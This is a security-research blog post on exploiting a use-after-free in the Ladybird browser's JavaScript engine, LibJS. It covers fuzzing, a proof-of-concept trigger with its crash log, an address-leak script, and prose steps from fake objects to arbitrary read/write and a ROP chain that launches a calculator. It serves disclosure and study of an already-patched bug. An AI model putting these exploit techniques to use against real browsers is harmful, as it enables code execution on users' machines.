

+++
title = "Pwning the Ladybird browser"
date = 2025-04-23T17:08:28+13:00
draft = true
description = """
    This post follows the exploitation of a UAF in the Ladybird Browsers javascript engine — LibJS
"""
+++

## Intro
[Ladybird](https://ladybird.org) is a relatively new browser engine originating from the
[SerenityOS project](https://github.com/SerenityOS/serenity). Currently, it's in pre-alpha and improving quickly.
Take a look at the website and the GitHub for more information!

I'll be researching the JavaScript engine of Ladybird,
[LibJS](https://github.com/LadybirdBrowser/ladybird/tree/278666edcd74/Libraries/LibJS).

## Architecture
LibJS has an interpreter tier and no compilation tiers (yet!). It includes common modern JS engine  
optimizations and is built with extensive verification checks across its critical code paths and data  
structures, including vectors, making scenarios such as integer overflows leading to out-of-bounds  
accesses harder to exploit.

## Fuzzing
We'll be using Fuzzilli, a popular fuzzer for JavaScript interpreters. Here's the description from the GitHub:


  <blockquote>
    A (coverage-)guided fuzzer for dynamic language interpreters based on a custom
    intermediate language ("FuzzIL") which can be mutated and translated to JavaScript.
    <cite>- <a href="https://github.com/googleprojectzero/fuzzilli">Fuzzilli</a></cite>
  </blockquote>


Fuzzilli can be configured with additional code generators that can be specialized to trigger
specific bugs. LibJS isn't actively being OSS-fuzzed, so I didn’t add any custom generators and hoped
there would be enough shallow bugs around. There was already some persistent fuzzing code
in LibJS. After some work — like needing to compile and link Skia with RTTI (Nix 💜), fixing
some build scripts, and compiling Fuzzilli with an additional profile (again, Nix was great for this) — I
got it all working!

I ran the fuzzer for ~10 days and found 10 unique crashes. A lot of the bugs were boring:

 - [Verification failure](https://github.com/LadybirdBrowser/ladybird/commit/88c4f71114f7cfcf7e667eb07dae21553c0e10c6)
 - [Stack exhaustion](https://github.com/LadybirdBrowser/ladybird/commit/911b9157637653c984ccbbd2c0b990499f5597a0)
 - [OOM bugs](https://github.com/LadybirdBrowser/ladybird/pull/3615)
 - [Bad bytecode generation](https://github.com/LadybirdBrowser/ladybird/commit/356728b1e0c33aac879db285302f067a694ad28f).

There were a few bugs that were more interesting:

 - [A caching bug in the regex parser](https://github.com/LadybirdBrowser/ladybird/commit/83e46b372815d28475269d04ca6b98e97861b33a)
 - [An integer overflow in `TypedArray`](https://github.com/LadybirdBrowser/ladybird/commit/f3a937ee769c2d9b4a78964641812171c4d03dd1)

Initially, I thought the regex bug was an integer overflow... unfortunately, it wasn’t. The real integer overflow  
in `TypedArray` looked really promising — but it seems hard to exploit, with all the bounds checks protecting  
vectors from bad accesses.

There were three bugs that looked really good: a heap buffer overflow, freelist corruption (or UAF) in the garbage
collector, and a heap use-after-free (UAF) in the malloc heap. But unfortunately, only the last UAF was reproducible outside of Fuzzilli.

    I'm still not sure why the others didn't reproduce. <a href="files/heap-buff-overflow.js">This</a>
    is the crash report for the
    heap buffer overflow, and <a href="files/gc-uaf.js">this</a> is the one for the freelist corruption,
    if interested.


## The Bug
### A Vulnerable Function
The bug is a use-after-free (UAF) on the interpreter's argument buffer. It's triggered by using a
proxied function object as a constructor, together with a malicious `[[Get]]` handler.

Consider the following JavaScript:
```js
function Construct() {}
new Construct();
```

The semantics are outlined
[here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/new#description).

This is how it's implemented in Ladybird:
```cpp
// 10.2.2 [[Construct]] ( argumentsList, newTarget )
ThrowCompletionOr<GC::Ref<Object>> ECMAScriptFunctionObject::internal_construct(
    ReadonlySpan<Value> arguments_list, // [1]
    FunctionObject& new_target
) {
    auto& vm = this->vm();

    // 1. Let callerContext be the running execution context.
    // NOTE: No-op, kept by the VM in its execution context stack.

    // 2. Let kind be F.[[ConstructorKind]].
    auto kind = m_constructor_kind;

    GC::Ptr<Object> this_argument;

    // 3. If kind is base, then
    if (kind == ConstructorKind::Base) {
        // [2]
        // a. Let thisArgument be ? OrdinaryCreateFromConstructor(newTarget, "%Object.prototype%").
        this_argument = TRY(ordinary_create_from_constructor<Object>(
            vm,
            new_target,
            &Intrinsics::object_prototype,
            ConstructWithPrototypeTag::Tag
        ));
    }

    auto callee_context = ExecutionContext::create();

    // [3]
    // Non-standard
    callee_context->arguments.ensure_capacity(max(arguments_list.size(), m_formal_parameters.size()));
    callee_context->arguments.append(arguments_list.data(), arguments_list.size());
    callee_context->passed_argument_count = arguments_list.size();
    if (arguments_list.size() < m_formal_parameters.size()) {
        for (size_t i = arguments_list.size(); i < m_formal_parameters.size(); ++i)
            callee_context->arguments.append(js_undefined());
    }
    // [3 cont.] ...
```

The key parts are:

 - First, it takes a reference to an argument buffer, `arguments_list`. \[1\]
 - Then, it creates a new object with the same prototype as the constructor function. \[2\]
 - Then, it executes the constructor with the arguments in `arguments_list`. \[3\]

If the vector that `arguments_list` references is `free()`'d at any point between \[1\] and \[3\],
then `arguments_list` will dangle; and when it's used for the function call, it leads to a use-after-free.

Let's look at `ordinary_create_from_constructor`, called at \[2\]:
```cpp
// 10.1.13 OrdinaryCreateFromConstructor ( constructor, intrinsicDefaultProto [ , internalSlotsList ] )
template<typename T, typename... Args>
ThrowCompletionOr<GC::Ref<T>> ordinary_create_from_constructor(
    VM& vm,
    FunctionObject const& constructor,
    GC::Ref<Object> (Intrinsics::*intrinsic_default_prototype)(),
    Args&&... args)
{
    auto& realm = *vm.current_realm();
    auto* prototype = TRY(get_prototype_from_constructor(vm, constructor, intrinsic_default_prototype));
    return realm.create<T>(forward<Args>(args)..., *prototype);
}
```

It does the following:

 - Gets the prototype of the constructor function
 - Creates a new JavaScript object with that prototype

It's a simple method, but it can have side effects if the constructor happens to be a
[proxy object](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy).
If we override the constructor function's `[[Get]]` internal method, the call to `get_prototype_from_constructor`
can execute arbitrary JavaScript code. This is useful if we can get that code to free the argument buffer.

### The Argument Buffer

The interpreter stores arguments for function calls in a vector called `m_argument_values_buffer`.
It can grow, shrink, be freed, or reallocated — and we have some control over when that happens.
For example, if the current buffer holds $5$ JS values, and we run:

```js
foo(1, 2, 3, 4, 5, 6, 7, 8, 9, 10)
```

then the buffer will need to be freed and reallocated somewhere with space for 10 JS values.
Using this, we can free the interpreter's internal argument buffer — the same one that `arguments_list`
*still* points to — before it's used to set up the `callee_context` for the proceeding constructor call.

The fix is to do the prototype `[[Get]]` strictly *after* the callee context has been constructed.
[Here's](https://github.com/LadybirdBrowser/ladybird/commit/f5a670421954fc7130c3685b713c621b29516669)
the patch.

Here's an example:
```js
function Construct() {}

let handler = {
    get() {
        function meow() {}
        meow(0x41, 0x41, 0x41);
    }
};

let ConstructProxy = new Proxy(Construct, handler);

new ConstructProxy(0x41);
```

We override `Construct`'s `[[Get]]` internal method with a function that tries to reallocate the
argument buffer. Then we invoke the constructor to trigger the bug.

```python
➜  ladybird git:(b8fa355a21) ✗ js bug.js
=================================================================
==8726==ERROR: AddressSanitizer: heap-use-after-free on address 0x5020000038f0 at pc 0x7f98dd1bf19e bp 0x7ffcc8ee2ef0 sp 0x7ffcc8ee2ee8
READ of size 8 at 0x5020000038f0 thread T0
    #0 0x7f98dd1bf19d  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xbbf19d)
    #1 0x7f98dd1bdf8f  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xbbdf8f)
    #2 0x7f98dd22a555  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xc2a555)
    #3 0x7f98dd539cdd  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xf39cdd)
    #4 0x7f98dce78c0e  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x878c0e)
    #5 0x7f98dcdcdc0a  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7cdc0a)
    #6 0x7f98dcdb818a  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b818a)
    #7 0x7f98dcdb6971  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b6971)
    #8 0x562b5099e2a2  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x1922a2)
    #9 0x562b5099b114  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x18f114)
    #10 0x562b509c1029  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x1b5029)
    #11 0x7f98dae2a1fd  (/nix/store/rmy663w9p7xb202rcln4jjzmvivznmz8-glibc-2.40-66/lib/libc.so.6+0x2a1fd) (BuildId: 7b6bfe7530bfe8e5a757e1a1f880ed511d5bfaad)
    #12 0x7f98dae2a2b8  (/nix/store/rmy663w9p7xb202rcln4jjzmvivznmz8-glibc-2.40-66/lib/libc.so.6+0x2a2b8) (BuildId: 7b6bfe7530bfe8e5a757e1a1f880ed511d5bfaad)
    #13 0x562b5084ed14  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x42d14)

0x5020000038f0 is located 0 bytes inside of 16-byte region [0x5020000038f0,0x502000003900)
freed by thread T0 here:
    #0 0x562b50940bf8  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x134bf8)
    #1 0x7f98dcd39e1e  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x739e1e)
    #2 0x7f98dcd3963d  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x73963d)
    #3 0x7f98dce90c12  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x890c12)
    #4 0x7f98dcdcd014  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7cd014)
    #5 0x7f98dcdb818a  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b818a)
    #6 0x7f98dd228b7f  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xc28b7f)
    #7 0x7f98dd225cf6  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xc25cf6)
    #8 0x7f98dd530b92  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xf30b92)
    #9 0x7f98dd48e458  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xe8e458)
    #10 0x7f98dd09a76f  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xa9a76f)
    #11 0x7f98dd232d4b  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xc32d4b)
    #12 0x7f98dd22a381  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xc2a381)
    #13 0x7f98dd539cdd  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xf39cdd)
    #14 0x7f98dce78c0e  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x878c0e)
    #15 0x7f98dcdcdc0a  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7cdc0a)
    #16 0x7f98dcdb818a  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b818a)
    #17 0x7f98dcdb6971  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b6971)
    #18 0x562b5099e2a2  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x1922a2)
    #19 0x562b5099b114  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x18f114)
    #20 0x562b509c1029  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x1b5029)
    #21 0x7f98dae2a1fd  (/nix/store/rmy663w9p7xb202rcln4jjzmvivznmz8-glibc-2.40-66/lib/libc.so.6+0x2a1fd) (BuildId: 7b6bfe7530bfe8e5a757e1a1f880ed511d5bfaad)

previously allocated by thread T0 here:
    #0 0x562b50941bc7  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x135bc7)
    #1 0x7f98dcd39c7f  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x739c7f)
    #2 0x7f98dcd3963d  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x73963d)
    #3 0x7f98dce90c12  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x890c12)
    #4 0x7f98dcdcc161  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7cc161)
    #5 0x7f98dcdb818a  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b818a)
    #6 0x7f98dcdb6971  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0x7b6971)
    #7 0x562b5099e2a2  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x1922a2)
    #8 0x562b5099b114  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x18f114)
    #9 0x562b509c1029  (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/js+0x1b5029)
    #10 0x7f98dae2a1fd  (/nix/store/rmy663w9p7xb202rcln4jjzmvivznmz8-glibc-2.40-66/lib/libc.so.6+0x2a1fd) (BuildId: 7b6bfe7530bfe8e5a757e1a1f880ed511d5bfaad)

SUMMARY: AddressSanitizer: heap-use-after-free (/home/jess/code/ladybird-flake/ladybird/Build/old/bin/../lib64/liblagom-js.so.0+0xbbf19d)
Shadow bytes around the buggy address:
  0x502000003600: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fa
  0x502000003680: fa fa 00 00 fa fa 00 fa fa fa 00 fa fa fa 00 fa
  0x502000003700: fa fa 00 fa fa fa fd fa fa fa fd fa fa fa 00 fa
  0x502000003780: fa fa 00 00 fa fa 00 fa fa fa 00 00 fa fa 00 00
  0x502000003800: fa fa fd fd fa fa fd fa fa fa 00 fa fa fa 00 fa
=>0x502000003880: fa fa 00 00 fa fa 00 00 fa fa 00 00 fa fa[fd]fd
  0x502000003900: fa fa 00 fa fa fa 00 fa fa fa 00 00 fa fa 00 fa
  0x502000003980: fa fa 00 fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000003a00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000003a80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000003b00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==8726==ABORTING
```

## Exploitation

UAF's tend to be a nice primitive to work with. In this case, the UAF occurs in the glibc malloc heap
(since that's where the argument buffer is allocated), rather than in a garbage-collected arena
where a lot of objects actually reside. The malloc heap mainly holds backing buffers and such,
introducing a bit of complexity when it comes to finding the right objects for a leak; although this is
somewhat mitigated by the powerful primitives available.

### Leaking an Object

We can craft an `addrof`-capability by fitting a pointer somewhere inside the old `arguments_list` allocation,
then reading the
[`arguments`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/arguments)
object from inside the constructor.

Here's an example of how we can leak the address of an object:
```js
let target = {};
let linked = new FinalizationRegistry(() => {});

function meow() {}

let handler = {
    get() {
        // [2]
        // allocate more than 0x30 to free the chunk
        meow(0x1, 0x2, 0x3, 0x4, 0x5, 0x6);

        // [3]
        // allocate the free'd chunk, with pointer to the target
        linked.register(target, undefined, undefined, undefined, undefined, undefined)
    }
};

function Construct() {
    // [4]
    // read the linked list node, containing the pointer
    console.log(arguments)
}

let ConstructProxy = new Proxy(Construct, handler);

// [1]
// allocate a 0x30 chunk
// 0x8 * 5 (js values) + 0x8 (malloc metadata) = 0x30
new ConstructProxy(0x1, 0x2, 0x3, 0x4, 0x5);
```

    The series of <code>undefined</code> arguments on $[3]$ is to make sure the <i>linked list node</i> is allocated
    in our free chunk and not any prelude allocations.


`FinalizationRegistry` places linked list nodes with object pointers on the malloc heap
rendering them a useful structure to leak. Running the exploit we get the double representation of
the pointer, if we repeat a few times they change slightly, subject to ASLR
```ruby
➜  ladybird git:(b8fa355a21) ✗ Build/old/bin/js arguments.js
ArgumentsObject{ "0": 6.9077829341497e-310, "1": undefined, "2": 0, "3": 0, "4": 5 }
➜  ladybird git:(b8fa355a21) ✗ Build/old/bin/js arguments.js
ArgumentsObject{ "0": 6.8997364430636e-310, "1": undefined, "2": 0, "3": 0, "4": 5 }
```

And sure enough when we `pack` into raw bytes, we get the pointer!
```python
>>> struct.pack("<d", 6.8997364430636e-310)[::-1].hex()
'00007f0350fc2118'
```

### Creating a Fake Object

We can fake a JavaScript object pointer in a similar way. We allocate a buffer into `arguments_list`,
write our fake object pointer into it, and then use the fake object inside the constructor.
There are a few additional considerations:

 - Our `free(arguments_list)` mechanism relies on vector reallocation, so the size of our target structures
   needs to increase monotonically, and in steps large enough to trigger a reallocation.
 - Once we know where our fake object is, we need to tag it in accordance with Ladybird's nan-boxing scheme,
   so the engine knows its type.

Apart from that, it's very similar; and we'll do so in the next section.

## Arbitrary Read/Write

Dynamic property lookups on objects are handled by the `get_by_value` function, shown below.
If the key is an index (\[1\]) and the object is an array-like (\[2\]) (it has an `m_indexed_properties` member),
then the property is fetched from the `m_indexed_properties` member.

```cpp
inline ThrowCompletionOr<Value> get_by_value(
    VM& vm,
    Optional<IdentifierTableIndex> base_identifier,
    Value base_value,
    Value property_key_value,
    Executable const& executable
) {
    // [1]
    // OPTIMIZATION: Fast path for simple Int32 indexes in array-like objects.
    if (base_value.is_object() && property_key_value.is_int32() && property_key_value.as_i32() >= 0) {
        auto& object = base_value.as_object();
        auto index = static_cast<u32>(property_key_value.as_i32());

        auto const* object_storage = object.indexed_properties().storage();

        // [2]
        // For "non-typed arrays":
        if (!object.may_interfere_with_indexed_property_access()
            && object_storage) {
            auto maybe_value = [&] {
                // [3]
                if (object_storage->is_simple_storage())
                    return static_cast<SimpleIndexedPropertyStorage const*>(object_storage)->inline_get(index);
                else
                    return static_cast<GenericIndexedPropertyStorage const*>(object_storage)->get(index);
            }();
            if (maybe_value.has_value()) {
                auto value = maybe_value->value;
                if (!value.is_accessor())
                    return value;
            }
        }
        
        // try some further optimizations, otherwise fallback to a generic `internal_get`
        ...
```

Furthermore if the storage type is `SimpleIndexedPropertyStorage` then the following method is used.

```cpp
[[nodiscard]] Optional<ValueAndAttributes> inline_get(u32 index) const
{
    if (!inline_has_index(index))
        return {};
    return ValueAndAttributes { m_packed_elements.data()[index], default_attributes };
}
```

This indexes into the `m_packed_elements` vector using our offset. This code path (indexing into an array-like object
that has a `SimpleIndexedPropertyStorage`) contains no virtual function calls, meaning we don't need to give our fake
object a vtable pointer — which is useful, in that we don't need to know where one is.

We set up our fake object such that `m_indexed_properties` points to a fake
`SimpleIndexedPropertyStorage` object, whose `m_packed_elements` then points to the location of the read.
This is simpler than it sounds, as all these structures can be overlapped in the same memory region.



Now that we have the structures laid out in memory, all that's left is ensuring:
 - \[2\] passes: by setting `m_may_interfere_with_indexed_property_access` to `false`
 - and \[3\] passes: by setting `m_is_simple_storage` on the object storage to `true`

After we have a reliable read capability, we can leak the vtable for `SimpleIndexedPropertyStorage`,
then patch our fake storage object. This gives us a write capability by doing the opposite process to the
read, without crashing.

## Code Execution

Once we have an arbitrary read/write, we have complete control over the renderer:

 - We can mess with internal values in the renderer,
 - We can craft a fake vtable to gain control flow after a stack pivot,
 - We can overwrite stack return pointers and construct a ROP chain.

The most reliable method for getting code execution appears to be overwriting a return pointer.

First, we leak the location of the stack by following a chain of pointers around the address space.
The chain begins with a pointer into the LibJS mapping (the vtable pointer of our object). From there,
we leak a GOT entry taking us to libc, where we finally leak a pointer to the stack (via `__libc_argv`).

Once we've found the stack, we search for a specific return pointer (`__libc_start_call_main`)
and overwrite it with a ROP chain. The POC ROP chain is simple; it `execve`'s `/calc`
([syscall `0x3b`](https://www.chromium.org/chromium-os/developer-library/reference/linux-constants/syscalls#x86_64-64-bit)),
which is a symbolic link to the calculator app. A more complex payload would map RWX pages for a second
stage.

All that's left is to close the tab, which will collapse the stack and trigger the ROP chain.
Below is a video of the final exploit!


  <video controls>
    <source src="files/browser-escape.mp4" type="video/mp4">
  </video>

